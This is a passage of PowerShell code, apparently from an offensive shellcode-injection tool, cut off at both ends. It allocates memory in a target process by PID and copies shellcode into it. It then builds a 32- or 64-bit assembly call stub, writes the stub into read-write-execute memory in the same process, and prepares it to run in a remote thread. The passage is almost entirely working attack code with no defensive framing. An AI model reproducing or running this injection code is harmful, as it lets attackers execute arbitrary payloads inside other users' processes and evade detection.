         if (!$RemoteMemAddr)
        {
            Throw "Unable to allocate shellcode memory in PID: $ProcessID"
        }
        
        Write-Verbose "Shellcode memory reserved at 0x$($RemoteMemAddr.ToString("X$([IntPtr]::Size*2)"))"

        # Copy shellcode into the previously allocated memory
        $WriteProcessMemory.Invoke($hProcess, $RemoteMemAddr, $Shellcode, $Shellcode.Length, [Ref] 0) | Out-Null

        # Get address of ExitThread function
        $ExitThreadAddr = Get-ProcAddress kernel32.dll ExitThread

        if ($IsWow64)
        {
            # Build 32-bit inline assembly stub to call the shellcode upon creation of a remote thread.
            $CallStub = Emit-CallThreadStub $RemoteMemAddr $ExitThreadAddr 32
            
            Write-Verbose 'Emitting 32-bit assembly call stub.'
        }
        else
        {
            # Build 64-bit inline assembly stub to call the shellcode upon creation of a remote thread.
            $CallStub = Emit-CallThreadStub $RemoteMemAddr $ExitThreadAddr 64
            
            Write-Verbose 'Emitting 64-bit assembly call stub.'
        }

        # Allocate inline assembly stub
        $RemoteStubAddr = $VirtualAllocEx.Invoke($hProcess, [IntPtr]::Zero, $CallStub.Length, 0x3000, 0x40) # (Reserve|Commit, RWX)
        
        if (!$RemoteStubAddr)
        {
            Throw "Unable to allocate thread call stub memory in PID: $ProcessID"
        }
        
        Write-Verbose "Thread call stub memory reserved at 0x$($RemoteStubAddr.ToString("X$([IntPtr]::Size*2)"))"

        # Write 32-bit assembly stub to remote process memory space
        $WriteProcessMemory.Invoke($hProcess, $RemoteStubAddr, $CallStub, $CallStub.Length, [Ref] 0) | Out-Null
